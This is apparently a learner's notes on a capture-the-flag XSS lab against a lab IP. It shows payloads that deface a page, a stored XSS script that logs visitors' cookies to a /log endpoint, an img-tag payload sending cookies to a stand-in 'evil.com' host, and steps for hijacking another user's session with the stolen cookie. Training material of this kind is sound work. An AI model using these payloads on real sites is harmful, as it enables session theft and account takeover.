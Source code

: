 ```
then will be
to replace XSS Playground

<script>document.querySelector(''#thm-title').textContent = 'I am a Hacker'</script>

or

<script>document.getElementById('thm-title').innerHTML="I am a hacker";</script>

Question 4

We have made things easy for you. Requesting /log/hello will log hello for you.

The logs page will show you everything logged to /log/any_text URL.

This means, if you write a malicious script to steal someones cookie, you can have it logged for you to take over their account

Posting <script>document.location='/log/'+document.cookie</script> will log everyones cookies. Make sure its not your cookie when you're visiting the logs page as you will have also visited this page again.. You can check this by looking at your cookies in the Developer Tools console and executing document.cookie.

Once your victim (in this case you hope its Jack), to visit this page, it will log his cookie for you to steal!You can also use other HTML tags to make requests, including the img tag
<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />


my cookie
document.cookie
"connect.sid=s%3AF3ki1_43pM1UZdiS4ms3Rl-Y8Zl3uIeV.Hb9PsrrHRA%2F7NSv8yN4RYrS5woN9NuBuyx4%2F7LNyZt8" 

then need jack's cookie

first see location in inspect

document.location

Location http://10.10.163.201/stored

so adding to steal cookie

<script>document.location='/log/'+document.cookie</script>

so going to
http://10.10.163.201/log
then visit cookies

s:F3ki1_43pM1UZdiS4ms3Rl-Y8Zl3uIeV.Hb9PsrrHRA/7NSv8yN4RYrS5woN9NuBuyx4/7LNyZt8

http://10.10.163.201/logs
Logs

Anything that makes a request to /log/:text will be logged. For example, /log/anything+can+go+here will get logged to this page.
10/3/2022, 1:03:43 AM : anything+can+go+here
10/3/2022, 1:02:40 AM : hello
10/3/2022, 12:59:00 AM : connect.sid s%3Aat0YYHmITnfNSF0kM5Ne-ir1skTX3aEU.yj1%2FXoaxe7cCjUYmfgQpW3o5wP3O8Ae7YNHnHPJIasE

then replace your cookie to jack going to inspect , storage,cookies ,value and replace

then comment like hi and got it!
```